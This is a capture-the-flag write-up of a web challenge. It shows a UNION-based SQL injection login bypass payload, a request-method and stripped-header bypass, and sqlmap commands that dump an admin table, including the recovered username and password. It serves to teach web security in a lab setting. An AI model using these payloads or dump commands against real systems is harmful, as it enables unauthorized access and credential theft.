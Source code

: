 # FLAG 0
Finding this flag started with me **testing all inputs with special characters** for example the single quote
When entering the single quote into the username field of the login page a error will be displayed on the users screen

```py
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")
```
From this error you get two useful pieces of information **the type of DB and the query**
To simplify the query we will assume the input is called "USERINPUT" this isn't important to finding the flag just so I can show how the query works.

```sql
SELECT password
FROM admins
WHERE username='USERINPUT'
```
Now that we know the query we can **exploit it**.

I was unsure of how to exploit this query until i got the hint 
```
Getting admin access might require a more perfect union
```
This told me that it will be a SQL injection using a union. Creating the next part of the query took me some time researching mostly watching videos such as computerphiles two SQL injection videos.
After researching it occured to me that when using the single quote I am ending the current query and am now in control of what happens next.
```sql
'UNION SELECT 'pass' AS password from admins where '1' = '1 
```
When you enter this into the username field it will set the password to 123 and it has to be correct due to the '1' = '1 which always returns true
The full query looks like this.

```SQL
SELECT password
FROM admins
WHERE username='USERINPUT''UNION SELECT 'pass' AS password from admins where '1' = '1 
```
Once entered you will be greeted by the logged in screen and a private page with the flag.

# FLAG 1
Finding this flag took some time. I first got the hint number 1
```
What actions could you perform as a regular user on the last level, which you can't now?
```
This pointed me towards either the edit page or the create page after some failed attempts at exploiting either of these pages I took the second hint
```
Just because request fails with one method doesn't mean it will fail with a different method
``` 
This was obviously talking about the **QUEST METHODS**. POST , HEAD, GET , OPTIONS. 

Once I knew it had something to do with the METHOD I opened up firefoxes f12 networking page and edited and resend the requests. 

I started on the create page and first sent OPTIONS to see which METHOD could be used. After trying each of these METHODs nothing seemed to work so I moved to the edit page and tried there.

When the edit page is sent a REQUEST with the method POST it will give an error 400 or bad request. Once I saw it was a bad request I sent again after **removing** all the request headers to see what a blank POST request would yield.

It yielded a STATUS 200 and the flag in responce. 

Going back and testing this on the create page does not yield the same result and you will not get the flag.

# FLAG 2
The final flag started with the hint 
```
Credentials are secret, flags are secret. Coincidence?
``` 
This made me think that either the username or password are the flag. 

I started to gather the information I know about the DB which is that it runs on MariaDB and that it uses atleast two columns called username and password.

Remembering something I had read there was a program called SQLMAP that could be used to map SQL databases. Unknowing about the tool I researched it and booted up my linux VM.

after trying to use the URL within SQLMAP like below 
```
SQLMAP -U http://35.227.24.107/c9c02a8fea/login
```
and coming up with no results i looked at the -hh of SQLMAP and found -r which would use a request file.

I knew that everytime you click login it made a request so I launched burpsuite and captured the request to see what it looked like.

```
POST /c9c02a8fea/login HTTP/1.1

Host: 35.227.24.107

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 19

Origin: http://35.227.24.107

Connection: close

Referer: http://35.227.24.107/c9c02a8fea/login

Upgrade-Insecure-Requests: 1



username=&password=
```
This shows that the column names are definately username and password so now it was time to use this request within SQLMAP.

```
sqlmap -r /home/ewan/Desktop/1.request --tables
``` 
This returned all the tables within the DB and the one that stood out as important was this one. 
```
Database: level2
[2 tables]
+----------------------------------------------------+
| admins                                             |
| pages                                              |
+----------------------------------------------------+
```
The next step was gaining access to the information within these tables specifically the admins table.
After some testing with different commands I found the --dump command and attempted to use it on the table 'admins'. 
```
sqlmap -r /home/ewan/Desktop/1.request -T admins --dump
```
This returned 
```
Database: level2
Table: admins
[1 entry]
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | malissa  | herman   |
+----+----------+----------+

```
So now we have the username and password for the website. Once entered on the page you get the final flag.

# Conclusion
This was a challenge to complete but with some research it was figured out. I look forward to the next web based CTF I do.

If you wish to contact me add me on discord at Ewan#8585

